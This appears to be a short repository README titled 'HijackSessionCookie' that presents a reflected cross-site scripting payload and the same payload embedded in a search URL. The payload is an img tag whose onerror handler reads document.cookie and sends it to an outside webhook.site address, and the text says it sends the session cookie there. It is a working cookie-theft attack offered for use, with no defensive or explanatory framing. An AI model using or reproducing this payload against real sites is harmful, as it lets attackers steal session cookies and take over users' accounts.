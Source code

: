 # HijackSessionCookie
Test Repo

Payload
```
<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```

Payload integrated URL
```
https://www.yoursite.com/search?term=<img src=x onerror="fetch(`https://webhook.site/3cd37862-c917-46b1-b599-ba1c624bc379?${document.cookie}`).then(response => response.json()).then(data => console.log(data)).catch(error => console.error('Error:', error));">
```

This sends session cookie to webhook site.